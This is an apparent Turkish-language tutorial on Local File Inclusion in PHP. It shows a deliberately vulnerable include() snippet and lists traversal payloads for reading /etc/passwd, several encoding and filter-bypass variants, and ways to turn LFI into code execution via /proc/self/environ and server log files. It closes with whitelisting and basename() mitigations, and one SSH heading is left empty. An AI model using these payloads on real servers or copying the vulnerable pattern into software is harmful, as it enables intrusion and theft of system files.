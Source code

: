 # Local File Inclusion (LFI) Nedir
Local File Inclusion, web uygulamalarında kullanıcıdan alınan verilerin dosya yolu olarak işlenmesi sırasında ortaya çıkan bir zafiyetdir. Saldırgan, LFI sayesinde sunucudaki yerel dosyalara erişebilir ve hassas bilgileri elde edebilir.

Örnek olarak bir PHP uygulamasında şöyle bir kod olduğunu düşünelim:
```php
<?php
// index.php
$page = $_GET['page'];
include($page);
?>
```

Bu kod, URL’den gelen page parametresini doğrudan include ediyor. Örneğin:
```
http://example.com/index.php?page=about
```

about.php dosyasını sunucuya dahil eder. Ancak saldırgan parametreyi değiştirerek kritik sistem dosyalarına erişebilir:
```
http://example.com/index.php?page=../../../../etc/passwd
```

Bu durumda sunucu /etc/passwd dosyasının içeriğini döndürebilir.

# Bypass Teknikleri
## Double Encoding
```
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

## UTF-8 Encoding
```
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```

## Path Truncation
```
http://example.com/index.php?page=../../../etc/passwd............[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd/./././././.[ADD MORE] 
http://example.com/index.php?page=../../../[ADD MORE]../../../../etc/passwd
```

## Filter Bypass
```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```

# LFI to RCE
## /proc/self/environ Üzerinden RCE
Bir log dosyası gibi çalışır. Payload User-Agent header'ına gönderilirse, bu değer /proc/self/environ içinde yansıtılır.
```
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```

## Log Dosyası üzerinden
Payload servis log dosyasına enjekte edilirse ve daha sonra log dosyası LFI ile include edilirse.
```
http://example.com/index.php?page=/var/log/apache/access.log
http://example.com/index.php?page=/var/log/apache/error.log
http://example.com/index.php?page=/var/log/nginx/access.log
```

SSH üzerinden RCE

SSH girişini PHP kodu ile dene:

# LFI Açığını Önlemek
### Input Validation & Whitelisting
Kullanıcıdan gelen dosya adlarını direkt include etme. Sadece izin verilen dosyalar:
```php
$allowed_pages = ['about', 'contact', 'home'];
if(in_array($_GET['page'], $allowed_pages)) {
    include($_GET['page']);
} else {
    echo "Sayfa bulunamadı";
}
```

## Dizin Sabitleme (Directory Traversal Protection)
Kullanıcı inputunu direkt dosya yolu olarak kullanmak yerine, sabit dizinle birleştir:
```php
include(__DIR__ . '/pages/' . basename($_GET['page']));
```